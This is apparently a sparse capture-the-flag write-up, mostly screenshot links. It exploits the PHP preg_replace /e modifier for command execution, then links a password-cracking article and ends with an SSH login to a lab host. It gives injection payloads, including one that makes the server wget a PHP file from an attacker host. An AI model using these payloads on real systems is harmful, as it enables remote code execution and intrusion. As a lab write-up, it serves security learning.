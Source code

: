 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2361431a-bf37-44b2-806a-b76500028462)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9abfe5ff-af2e-4673-a9a1-4e31626755ba)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c63736c-a880-4232-9dfd-ed420b507e97)

https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/019d9fe1-3ab4-47b8-a34b-21e260c328b7)

`pattern=/a/e&replace=phpinfo();&paragraph=4`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4284093c-88d1-4a76-9082-4bdc1b38b788)

`pattern=/a/e&replace=system('wget http://ip:1234/test1.php');&paragraph=4`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db5f7de7-99bd-4d02-bb84-28a8f577839e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ecfee481-71ea-45ba-8aa7-f4f88683a09f)

https://erev0s.com/blog/cracking-etcshadow-john/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/61f842eb-f859-40f1-a1c8-35e33236d643)

`ssh derek@62.173.140.174 -p 18722`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f2ce2370-c03a-4fa3-ae50-d736c289d866)



